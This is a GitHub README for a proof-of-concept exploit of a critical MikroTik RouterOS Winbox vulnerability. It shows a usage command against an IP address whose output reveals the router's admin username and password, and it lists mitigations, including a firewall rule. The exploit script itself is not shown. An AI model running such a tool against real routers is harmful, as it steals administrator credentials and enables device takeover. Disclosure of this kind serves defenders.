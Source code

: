 # WinboxPoC
Proof of Concept of Winbox Critical Vulnerability

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use
Run it :)
```
$ python3 PoC.py 172.17.17.17
172.17.17.17

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!